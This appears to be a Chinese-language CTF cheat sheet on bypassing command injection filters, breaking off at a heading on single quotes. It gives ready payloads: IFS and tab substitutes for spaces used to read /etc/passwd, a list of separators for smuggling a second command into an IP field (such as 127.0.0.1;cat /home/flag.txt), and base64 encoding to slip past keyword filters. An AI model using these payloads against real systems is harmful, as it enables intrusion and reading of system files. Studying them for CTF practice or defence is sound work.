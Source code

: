 
## 命令执行

### 空格代替

空格在bash下，可以用以下字符代替空格
```
<
${IFS}
$IFS$9
%09
```

```
cat</etc/passwd
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd
cat%09/etc/passwd
```

$IFS 在 linux 下表示分隔符，只有 cat$IFSa.txt 的时候, bash 解释器会把整个 IFSa 当做变量名，所以导致没有办法运行，然而如果加一个 {} 就固定了变量名，同理在后面加个 $ 可以起到截断的作用，而 $9 指的是当前系统 shell 进程的第九个参数的持有者，就是一个空字符串，因此 $9 相当于没有加东西，等于做了一个前后隔离。

### 截断符号

比如测试 ping 功能的点，要求填写一个 ip 参数这样的题目，这个时候就需要测试截断符号，将你输入的 ip 参数和后面要执行的命令隔开。首先测试所有的截断符号：
```
$
;
|
-
(
)
`
||
&&
&
}
{
%0a
```

利用截断符号配合普通命令简单问题基本就出来；例如：ip=127.0.0.1;cat /home/flag.txt 这样就可以达到同时执行两条命令的效果

### 利用base编码绕过

这种绕过针对的是系统过滤敏感字符的时候，比如他过滤了cat命令，那么就可以用下面这种方式将cat先base64编码后再进行解码运行。
```
echo 'cat' | base64

`echo 'Y2F0Cg==' | base64 -d` /etc/passwd
```

### 单引号
